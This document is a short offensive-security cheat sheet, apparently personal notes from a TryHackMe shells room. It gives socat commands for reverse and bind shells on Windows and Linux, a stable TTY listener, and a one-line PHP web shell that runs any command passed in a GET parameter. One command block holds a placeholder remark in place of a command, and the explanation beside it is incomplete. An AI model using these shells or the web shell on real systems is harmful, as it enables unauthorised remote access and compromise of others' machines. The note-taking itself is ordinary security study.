 ```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
windows reverse shell from target

```console
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
Linux Reverse shell from target

---

## Bind Shell

```console
socat TCP-L:<PORT> EXEC:"bash -li"
```
>target command

```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
``` 
>listener for windows

```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
>used to connect from attacking machine

---

## Stable tty reverse shell

>will only work on a Linux target

```
socat TCP-L:<port> FILE:`tty`,raw,echo=0 
```

>listener

```
Gosh IDK man 
```
As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z

>https://tryhackme.com/room/introtoshells

---

# PHP RCE from a File Upload

```
<?php
    echo system($_GET["cmd"]);
?>
```
